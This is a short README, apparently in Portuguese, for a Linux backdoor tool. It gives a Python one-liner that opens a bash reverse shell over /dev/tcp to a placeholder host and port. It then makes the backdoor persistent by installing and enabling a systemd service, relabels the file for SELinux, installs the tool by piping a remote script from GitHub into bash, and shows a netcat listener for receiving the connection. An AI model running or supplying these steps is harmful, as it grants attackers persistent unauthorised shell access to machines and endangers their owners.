 # Backdoor

> import os ; os.system('bash -i >& /dev/tcp/<IP DE DESTINO>/<PORTA DE DESTINO> 0>&1')

### Selinux
restorecon -RFv /usr/lib/systemd/system/backdoor.service

### Systemd
cp backdoor.service /usr/lib/systemd/system/
systemctl daemon-reload
systemctl start backdoor.service
systemctl enable backdoor.service

### Instalação
curl -s -L https://raw.githubusercontent.com/laurobmb/backdoor_linux/master/install.sh | bash


## No server

Para receber a conexão basta executar:

> nc -nlv 8001